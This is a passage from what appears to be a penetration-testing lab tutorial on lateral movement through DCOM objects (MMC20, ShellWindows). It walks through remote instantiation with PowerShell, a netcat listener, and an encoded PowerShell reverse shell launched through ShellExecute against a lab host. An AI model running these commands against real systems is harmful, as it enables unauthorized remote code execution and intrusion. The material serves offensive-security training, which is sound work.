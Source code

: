 PS C:\Windows\system32&gt; whoami                                                                                                                                      
inlanefreight\helen
</code></pre>
<p>Execution of <code>mmc.exe</code> through COM is highly unusual, making it difficult to mask this technique as benign activity and likely to trigger alerts for defenders, but that will depend on the maturity of the organization.</p>
<h3>ShellWindows &amp; ShellBrowserWindow</h3>
<p><a href="https://learn.microsoft.com/en-us/windows/win32/shell/shellwindows?redirectedfrom=MSDN">ShellWindows</a> and <code>ShellBrowserWindow</code> objects in <code>DCOM</code> are very similar, they facilitate remote interaction with Windows Explorer instances. <code>ShellWindows</code> allows enumeration and control of open windows, enabling operations such as accessing files and executing commands within the Windows shell environment. However, <code>ShellBrowserWindow</code> provides specific control over browser windows within Windows Explorer, offering capabilities for managing file operations and executing commands remotely.</p>
<p>Since these objects aren't associated with a <code>ProgID</code>, we must employ the <code>Type.GetTypeFromCLSID</code> method in .NET along with <code>Activator.CreateInstance</code> to create an instance of the object via its <code>CLSID</code> on a remote host. We can find the <code>CLSID</code> with the following script:</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; Get-ChildItem -Path 'HKLM:\SOFTWARE\Classes\CLSID' | ForEach-Object{Get-ItemProperty -Path $_.PSPath | Where-Object {$_.'(default)' -eq 'ShellWindows'} | Select-Object -ExpandProperty PSChildName}

{9BA05972-F6A8-11CF-A442-00A0C90A8F39}
</code></pre>
<p>We won't be able to use this technique in this lab because it doesn't have all the required components. However, if we find a server where those components exist, we can use this method to perform remote code execution. This technique involves instantiating the <code>ShellWindows</code> object.</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; $shell = [activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","SRV02"))
</code></pre>
<pre><code class="language-powershell-session">PS C:\Tools\&gt; $shell = [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39","172.20.0.52"))
</code></pre>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> These command will cause an error in the lab.</p>
</div>
</div>
<p>Now, let's start listening with <code>Netcat</code>:</p>
<pre><code class="language-shell-session">[!bash!]$ nc -lnvp 8080
Listening on 0.0.0.0 8080
</code></pre>
<p>After that, we can execute any command using the <code>ShellExecute</code> method of the <code>Document.Application</code> property. We will use <code>cmd.exe</code> to execute our payload. We will be using a PowerShell reverse shell payload from <a href="https://revshells.com">revshells.com</a>:</p>
<pre><code class="language-powershell-session">PS C:\Tools\&gt; $shell[0].Document.Application.ShellExecute("cmd.exe","/c powershell -e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==","C:\Windows\System32",$null,0)
</code></pre>
<p>Finally, we can confirm that we have successfully established a reverse shell connection:</p>
<pre><code class="language-shell-session">Connection received on 172.20.0.52 50105
